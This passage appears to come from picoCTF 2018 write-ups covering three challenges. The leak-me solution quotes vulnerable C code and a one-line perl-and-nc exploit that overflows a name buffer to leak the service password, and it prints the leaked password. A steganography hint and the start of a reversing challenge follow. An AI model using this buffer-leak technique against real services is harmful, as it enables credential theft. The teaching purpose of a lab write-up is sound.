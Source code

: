 Enter more hints. *q=q v=k i=w x=x o=j z=z g=g* Then repeat one more time until the whole flag is visible without questionmarks.

# leak-me
### Binary Exploitation: 200p
Can you authenticate to this [service](https://2018shell2.picoctf.com/static/c050db17129bdf7e768a0151f554a75d/auth) and get the flag? Connect with nc 2018shell2.picoctf.com 1271. [Source](https://2018shell2.picoctf.com/static/c050db17129bdf7e768a0151f554a75d/auth.c).

Interesting part of auth.c:
```C
char password[64];
char name[256];
fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}
strcat(name, ",\nPlease Enter the Password.");
...
fgets(password, sizeof(password), file);
printf("Hello ");
puts(name);
```
If name is 256 characters there will be no trailing 0, the name buffer will be overwritten by password and puts will output both name and password.
```bash
perl -e 'print "A"x256' | nc 2018shell2.picoctf.com 1271
Hello AAA...AAA,a_reAllY_s3cuRe_p4s$word_f78570
```
Then connect again and enter the leaked password.

# now you don't
### Forensics: 200p
We heard that there is something hidden in [this](https://2018shell2.picoctf.com/static/e7afc1873bc40e4d15f532b4859623e7/nowYouDont.png) picture. Can you find it?

Open nowYouDont.png with Stegsolve.jar. Flag is written in red bitplane 1 and 0.

# quackme
### Reversing: 200p
Can you deal with the Duck Web? Get us the flag from this [program](https://2018shell2.picoctf.com/static/f875aa9443f7ecc45269a645dd46cb38/main). You can also find the program in /problems/quackme\_4\_0e48834ea71b521b9f35d29dc7be974e.

This is easier with a decompiler, like for instance the open source [retdec](https://github.com/avast-tl/retdec) or the proprietary Hex-Rays Decompiler.
